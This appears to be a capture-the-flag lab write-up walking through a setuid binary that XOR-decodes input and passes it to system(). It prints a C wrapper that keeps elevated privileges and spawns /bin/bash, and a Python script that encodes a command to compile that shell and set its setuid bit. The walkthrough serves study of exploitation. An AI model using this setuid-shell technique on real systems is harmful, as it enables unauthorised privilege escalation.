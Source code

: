 We are told that there are two ways of completing this level. In the main
function, we see two branches that executes the `process()` function which
contains a `system()` function call.

We first look at the branch that gets executed when `Content-Length` is more
than or equals to 1024.

We see that this branch essentially gets a random file, writes the content of
`stdin` into the file, `mmap`'s the file content into a `char` array that is
passed into the `process()` function. The process function then decodes the
`char` array before passing it into the `system()` function call.

The decoding scheme in `process()` involves XORing each character in sequence
with a key value. The inital key value is derived from the value of
`Content-Length` and each subsequent key is derived by subtracting the output
of the `XOR` operating from the existing key. Knowing this, we can easily write
a script to do the correct encoding of the command.

First we prepare our `shell.c`.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we write a script that encodes the command we want to run.

```python
def encode(command, key):
    ret = []
    for i in command:
        enc = (ord(i) ^ key) & 0xff
        ret.append(chr(enc))
        key = (key - ord(i)) & 0xff

    return "".join(ret)


def main():
    command = "gcc -o /home/flag11/shell /tmp/shell.c; chmod +s /home/flag11/shell\x00"
    length = 1024
    key = length & 0xff

    cmd = encode(command, key)
    print "Content-Length: " + str(length) + "\n" + cmd + "A"*(length - len(cmd))


if __name__ == "__main__":
    main()
```

